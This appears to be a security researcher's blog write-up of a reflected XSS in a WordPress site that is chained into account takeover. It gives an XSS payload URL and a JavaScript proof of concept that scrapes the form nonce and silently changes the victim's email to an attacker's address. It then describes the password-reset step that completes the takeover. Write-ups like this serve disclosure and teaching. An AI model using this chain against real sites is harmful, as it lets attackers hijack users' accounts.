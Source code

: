 ```yaml
---
title: "Reflected XSS to Account Takeover"
date: 2025-02-19
draft: false
description: "A reflected XSS bug turns into an ATO due to low security messures"
tags: ["XSS", "ATO", "Wordpress"]
---
```

<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">

## <i class="fa-solid fa-bullseye"></i>  The Vulnerabillity
When researching an application, I noticed that there was a <span class="text-primary-400">feature for resetting the email address</span> of our user. Interestingly, when trying to change it, there was <span class="text-primary-400">no security mechanism verifying that the change was actually initiated by the user</span> of that account. Normally, there’s an extra step where the user must input their password or any other identification method.

So, the first thing that came to mind was trying to carry out a <span class="text-primary-400">CSRF attack</span>, where I force the user to change their email to mine. This would allow me to use the regular “forgot password” function from the website, then input the email address that was set in the victim’s account, receive the reset email, and change the password to a desired one. However, I quickly realized that <span class="text-primary-400">WordPress securely handled CSRF tokens</span> in this application, so I wasn’t able to take that route yet. The next idea was to <span class="text-primary-400">find an XSS vulnerability</span>, which would allow me to just read those tokens out of the HTML and submit the form with those automatically.

### Finding XSS
Luckily, during my research, I came across a simple reflected XSS in the application: `https://example.com/login/confirm_mail.php?email=<img/src/onerror=print()>`

### Creating the Exploit Script
The next step was to create the script that would automatically change the email address in the user’s settings. However, we first have to get the <span class="text-primary-400">nonce that Wordpress added to each form request</span>.

## <i class="fa-solid fa-file"></i> PoC

{{< highlight JS "linenos=false,hl_lines=5 12 19 23" >}}
fetch('https://example.com/edit-account/').then(response => response.text()).then(html => {
    // Fetch the nonce from vulnerable endpoint
    var parser = new DOMParser();
    var doc = parser.parseFromString(html, 'text/html');
    var nonce = doc.getElementById('save-account-details-nonce').value;
    console.log(nonce);

    // Change email
    fetch('https://example.com/edit-account/', {
        method: 'POST',
        // Include Cookies
        credentials: 'include',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: `first_name=Test
        &last_name=Test
        &display_name=Test
        &email=<email we controll>
        &password_current=
        &password_1=
        &password_2=
        &save-account-details-nonce=${nonce}`
    })
    .then(response => {
        if (response.ok) {
            console.log("Done!");
        } else {
            console.log("Something went wrong..");
        }
    });
});
{{< /highlight >}}

The password parameters can be left empty, since the application only uses those, when a user wants to change their password via the UI on the website:

```
password_current=
password_1=
password_2=
```

<b class="text-primary-400">Explanation</b>: We first send a request to the vulnerable endpoint to retrieve the nonce:
`https://example.com/edit-account/`. The response is parsed, and the nonce is extracted from the HTML `doc.getElementById('save-account-details-nonce').value`. After that, we send a second request to the endpoint where we then fill out the forms details. This request includes the nonce and the attacker’s desired email address. The credentials parameter ensures cookies are included, maintaining the session context.

With this script in hand we can include it via our reflected XSS `https://example.com/login/confirm_mail.php?email={ATTACKER-SCRIPT}` and send it to a victim. After the script automatically updates the email address of the victim, we can use the already described way via the password reset function. <span class="text-primary-400">Thus, the account is fully compromised where the victim isn't even able to recover the account, since not only the password but also the email address changed</span>.